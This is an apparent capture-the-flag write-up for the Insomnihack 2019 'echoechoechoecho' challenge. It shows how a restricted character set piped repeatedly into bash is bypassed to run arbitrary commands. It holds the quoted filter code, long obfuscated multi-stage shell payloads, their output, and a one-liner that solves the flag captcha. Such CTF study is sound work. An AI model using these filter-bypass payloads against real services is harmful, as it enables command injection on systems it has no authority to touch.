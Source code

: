 # insomnihack CTF 2019
## echoechoechoecho - 216 , 18 solves
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)
### The Challenge
Input `thisfile` gives us the source code, the input will be appended several `|bash` and be executed by `bash`. Only very few special characters are allowed:
```python
def check_input(payload):
    if payload == 'thisfile':
        bye(open("/bin/shell").read())

    if not all(ord(c) < 128 for c in payload):
        bye("ERROR ascii only pls")

    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload
```
Payload can only contain `(` , `)` , `;` , `+` , `$` , `\` , `=` , ` ` , `'` and `echo`, and limited number of use of them.
### What we can use
* `$$` - bash process id.
* `$((1+2))` - 3.
### Variables
Thus it can not contain any lower case aphebat, but only `echo`.
* `$a` - `$echo`
* `$b` - `$echoecho`
* `$c` - `$echoechoecho`
* `echo=$$; echo $echo` -> `8`
### Bypass the limited number of use
We can store the special character in the variable by using backslash. The payload `echo=\=; echo echoecho$echo$$` will output `echoecho=8`. Then we can pass it to `bash` with `|bash`. Other example: `echo=\'; echo echo $echo$$$echo` -> `echo '8'`.
### Generate any number
In the seccond `bash`, `$$` is equal to `10` and we can generate `1` by `$(($$==$$))`,`$((10==10))`.For now, we can use `1` and `10` to caculate any number.
### To char
* `echo $'\154\163'` -> `ls`
### We are almost done!
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)
```
echo=\=;echo echoecho$echo\\\; echoechoecho$echo\\\( echoechoechoecho$echo\\\) echoechoechoechoecho$echo\\\+ echoechoechoechoechoecho$echo\\\'\; echo echo echo \\\\$\\\\\$echoechoechoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\$echoechoechoechoechoecho
```
* `|bash`
```
echoecho=\; echoechoecho=\( echoechoechoecho=\) echoechoechoechoecho=\+ echoechoechoechoechoecho=\'; echo echo echo \\$\\$echoechoechoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\$echoechoechoechoechoecho
```
* `|bash`
```
echo echo \$\'\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))+$((10==10))))\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))))\'
```
* `|bash`
```
echo $'\154\163'
```
* `|bash`
```
ls
```
* `|bash`
```
bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
### There is a captcha `get_flag`
I follow the solution of captcha of <a href="https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/">LosFuzzys</a>:
```bash
eval "echo \$(($(cat /tmp/a)))"|/get_flag|(read l;read l;echo $l>/tmp/a;cat;)
```
### Finally the flag
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`